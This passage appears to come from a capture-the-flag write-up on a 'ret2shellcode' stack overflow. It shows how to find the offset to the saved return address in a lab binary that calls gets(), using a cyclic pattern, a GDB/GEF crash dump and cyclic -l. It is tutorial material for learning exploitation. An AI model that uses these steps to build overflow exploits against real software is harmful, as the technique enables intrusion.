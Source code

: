 ### Offset calculation
For calculation of offset, we need to generate cyclic pattern which will possibly overwrite saved RIP. If your guess didn't overwrite RIP, just increase it.

1. I generated cyclic pattern of 150 bytes using `cyclic 150`.<br/>
2. Copy the resulting pattern.<br/>
3. Start the program in gdb using `gdb ./ret2shellcode`.<br/>
4. Paste the copied pattern and you should get a Segmentation Fault error. This shows that you overwrote the saved RIP.<br/>
It should be something like this:

```bash
Program received signal SIGSEGV, Segmentation fault.
0x0000000000401238 in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
$rax   : 0x0               
$rbx   : 0x0               
$rcx   : 0x00007ffff7f9f980  →  0x00000000fbad208b
$rdx   : 0x0               
$rsp   : 0x00007fffffffdfb8  →  "baabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma"
$rbp   : 0x6261617a61616179 ("yaaazaab"?)
$rsi   : 0x00007ffff7f9fa03  →  0xfa2680000000000a
$rdi   : 0x00007ffff7fa2680  →  0x0000000000000000
$rip   : 0x0000000000401238  →  <main+78> ret 
$r8    : 0x00007fffffffdf50  →  "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama[...]"
$r9    : 0x0               
$r10   : 0x00007ffff7fef110  →  <strcmp+4144> pxor xmm0, xmm0
$r11   : 0x246             
$r12   : 0x0000000000401080  →  <_start+0> xor ebp, ebp
$r13   : 0x0               
$r14   : 0x0               
$r15   : 0x0               
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 

0x00007fffffffdfb8│+0x0000: "baabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma"     ← $rsp
0x00007fffffffdfc0│+0x0008: "daabeaabfaabgaabhaabiaabjaabkaablaabma"
0x00007fffffffdfc8│+0x0010: "faabgaabhaabiaabjaabkaablaabma"
0x00007fffffffdfd0│+0x0018: "haabiaabjaabkaablaabma"
0x00007fffffffdfd8│+0x0020: "jaabkaablaabma"
0x00007fffffffdfe0│+0x0028: 0x0000616d6261616c ("laabma"?)
0x00007fffffffdfe8│+0x0030: 0x2ced48e1cc2282d4
0x00007fffffffdff0│+0x0038: 0x0000000000401080  →  <_start+0> xor ebp, ebp

0x40122d <main+67>        call   0x401070 <gets@plt>
0x401232 <main+72>        mov    eax, 0x0
0x401237 <main+77>        leave  
→   0x401238 <main+78>        ret    
[!] Cannot disassemble from $PC
```
**Note**: I'm using [gdb-gef](https://github.com/hugsy/gef) plugin.<br/>
5. To calculate the offset, copy the first four characters on top of stack. It is "baab" in this case. Or you can also calculate it by copying the first word on stack. It can be determined by `x/wx $rsp`.<br/>
6. To get the offset, give the four characters or first word on stack by `cyclic -l <value>`. This yields 104 (0x68).
